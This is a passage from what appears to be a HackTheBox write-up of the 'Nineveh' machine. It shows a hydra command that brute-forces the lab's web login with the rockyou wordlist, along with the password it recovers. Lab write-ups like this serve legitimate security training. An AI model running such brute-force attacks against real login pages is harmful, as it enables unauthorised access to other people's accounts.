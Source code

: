 This indicates that `admin` exists in their database. We can use `hydra` to brute-force this login page.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 -s 80 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 
...
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
...
```

>   Refer to this [article](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/) on how to use `hydra` to brute force websites & online forms.

Logged into their webpage and found a notes section.

![department_notes](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Nineveh/department_notes.png?raw=true)
